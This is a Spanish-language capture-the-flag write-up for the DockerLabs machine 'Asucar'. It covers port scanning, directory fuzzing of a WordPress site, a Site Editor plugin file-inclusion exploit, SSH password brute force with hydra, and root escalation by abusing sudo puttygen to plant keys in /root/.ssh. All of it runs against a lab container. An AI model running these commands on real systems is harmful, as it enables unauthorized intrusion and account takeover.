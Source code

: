 # Máquina Asucar

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________

```

![Pasted image 20240512163303](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/179bb0a9-5b73-4342-ba08-3e8b68fe7fcb)

Revisando el código fuente vemos que hay recursos que se están cargando de **asucar.d** por lo que lo añadimos a nuestro **/etc/hosts**.

```
172.17.0.2  asucar.dl
```

Aplicamos **Fuzzing**.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash
-----------------------------------------------------
/icons/               (Status: 403) [Size: 275]
/wp-content/          (Status: 200) [Size: 0]  
/wordpress/           (Status: 200) [Size: 745]
/wp-includes/         (Status: 200) [Size: 58715]
/wp-admin/            (Status: 302) [Size: 0]
```

He aplicado algo de reconocimiento con **wpscan** pero no he encontrado nada relevante.

***

## Explotación

Si le hacemos un curl a la página principal y vemos si desde ahí llama a algo con la palabra **plugin** vemos que está utilizando el plugin **site editor**.

![Pasted image 20240512164642](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/e7828a86-5bf9-41f7-a5df-057996781541)

Buscamos exploits para ese plugin concreto y encontramos un **LFI** para una versión un poco posterior a la que tenemos nosotros, por lo que es posible que nos sirva.

![Pasted image 20240512164622](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/8e01942a-dded-4294-81d1-80fb88c9f07f)

Lo podemos ver con el comando:

```shell
searchsploit -x php/webapps/44340.txt
```

![Pasted image 20240512164607](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/485c86fc-d985-43db-9e49-65c9f60700cb)

Nos da una **Proof of Concept** que adaptamos fácilmente a nuestra situación y tenemos el **LFI** !

![Pasted image 20240512164553](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/073656cf-bd46-46bc-be97-01df32e1f18d)

Vemos un usuario del sistema que se llama **curiosito**. Aplicamos fuerza bruta con **hydra** sobre el usuario:

```shell
hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: curiosito   password: password1
```

Estamos dentro !

***

## Escalada de privilegios

Si hacemos **sudo -l** vemos que podemos ejecutar **puttygen** como el usuario **root**:

```shell
sudo -l
----------------------------
User curiosito may run the following commands on a562c37486ba:
    (root) NOPASSWD: /usr/bin/puttygen
```

Lo podemos explotar con:

```shell
puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id
puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys
sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/id
sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh
```

Y en nuestra máquina atacante nos descargamos la clave y nos conectamos como **root**:

```shell
scp curiosito@172.17.0.2:/home/curiosito/.ssh/id .
ssh -i id root@172.17.0.2
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema !
